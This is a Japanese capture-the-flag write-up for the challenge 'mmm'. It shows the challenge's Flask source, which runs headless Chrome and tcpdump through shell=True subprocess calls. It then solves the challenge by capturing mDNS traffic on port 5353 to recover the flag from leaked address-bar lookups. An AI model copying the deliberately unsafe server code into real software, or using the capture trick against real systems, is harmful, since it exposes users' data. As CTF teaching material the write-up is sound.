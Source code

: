 # mmm😰

## 問題文
先輩がmなんちゃら？を有効にしたようです。アドレスバーで検索をするなと言われましたが意味が分かりません。  
URL1: [http://118.27.114.90:31417](http://118.27.114.90:31417/)  
URL2: [http://118.27.104.46:31417](http://118.27.104.46:31417/)  
※この問題はリクエストを複数回施行することが許可されています。URL1、URL2のどちらを用いても構いません。重くないほうをご利用ください。  
[app.py](files/app.py)  

## 難易度
**medium**  

## 作問にあたって
ブラウザのアドレスバーから検索を行うとmDNSによって検索ワードがばれることから思いつきました。  
おそらくCTFで扱われたことがないですが、作問時間が少なすぎておかしい問題設定になっています。  
もっとうまくやりたかった...。  

## 解法
サイトには謎のメッセージが表示されるだけである。  
```bash
$ curl http://118.27.114.90:31417
Can you get the server's traffic data?<br>Some well-known port numbers may be blocked.
```
配布されたapp.pyを見ると以下のようであった。  
```python
~~~
@app.route("/")
def mmm():
    flag = os.getenv("FLAG")
    data = request.args.get("data")
    if not data:
        data = "example.com"
    hehehe = random.randint(1, 100000000)
    data = "".join([c for c in data if c in "qwertyuiop@asdfghjklzxcvbnm"])
    cmd = f"google-chrome --no-sandbox --headless --disable-gpu \"http://{hehehe}{flag.replace('{', 'mmm').replace('}', '.')}{data}\""
    try:
        subprocess.run(cmd, shell=True, timeout=3)
    except:
        pass
    return "Can you get the server's traffic data?<br>Some well-known port numbers may be blocked."

@app.route("/<int:port>")
def get_the_port(port):
    if (port <= 65535) and (port >= 0) and (port != 22) and (port != 53) and (port != 80) and (port != 443):#No 22, 53, 80, 443 :)
        filename = random.randint(1, 100000000)
        os.makedirs("data", exist_ok=True)
        tcpdump = f"tcpdump -w data/{filename}.mmm port {port} -W1 -G5"#I've blocked the port numbers where you can get request data.
        try:
            subprocess.run(tcpdump, shell=True, timeout=6)
        except:
            try:
                os.remove(f"data/{filename}.mmm")
            except:
                pass
            return "There is no capture data."
        mmm = open(f"data/{filename}.mmm", "rb")
        data = io.BytesIO(mmm.read())
        mmm.close()
        os.remove(f"data/{filename}.mmm")
        return send_file(data, mimetype="application/octet-stream")
    else:
        return "0 <= port <= 65535 AND 22, 53, 80, 443 != port"
~~~
```
`/`では`google-chrome`で`http://乱数+flagの記号を置換したもの+dataクエリパラメータ`にアクセスしているだけである。  
`/<int:port>`ではtcpdumpで好きなポートをキャプチャでき、その結果を返してくれる。  
ただし、`22`、`53`、`80`、`443`は禁止されている。  
問題文にmなんちゃらとあり、「ブラウザ　アドレスバー　検索」Google検索すると、[ツイート](https://twitter.com/akira_you/status/1419228947766644736)がヒットする。  
ブラウザのアドレスバーで検索すると、mDNSで検索文字列が流出するようだ。  
mDNSポートを調べると5353であることがわかるのでここをキャプチャすればよい。  
ここで注意だが、Linux環境では.localでない場合、mDNSが発されないことがあるので`data=local`で対応すればよい。  
`http://118.27.114.90:31417?data=local`にアクセスしつつ、`http://118.27.114.90:31417/5353`を取得する。  
一連のリクエストを、solver.shをいくつか起動することで行う。  
```bash
$ ./solver.sh;./solver.sh
~~~
Saving to: ‘5353’

5353                          100%[=================================================>]     473  --.-KB/s    in 0s

2021-12-18 20:09:13 (6.31 MB/s) - ‘5353’ saved [473/473]
~~~
Saving to: ‘5353.1’

5353.1                        100%[=================================================>]      25  --.-KB/s    in 0s

2021-12-18 20:09:17 (1.25 MB/s) - ‘5353.1’ saved [25/25]
~~~
$ ls
5353  5353.1  solver.sh
$ strings 5353 | grep imctf
114470498imctfmmm534rch_73rm5_h4v3_b33n_l34k3d_0m6
114470498imctfmmm534rch_73rm5_h4v3_b33n_l34k3d_0m6
114470498imctfmmm534rch_73rm5_h4v3_b33n_l34k3d_0m6
176214533imctfmmm534rch_73rm5_h4v3_b33n_l34k3d_0m6
$ strings 5353.1 | grep imctf
$ cat 5353.1
There is no capture data.
```
データが取得できたので、余分な文字列を取り、置換されている部分を戻してやるとflagとなる。  

## imctf{534rch_73rm5_h4v3_b33n_l34k3d_0m6}
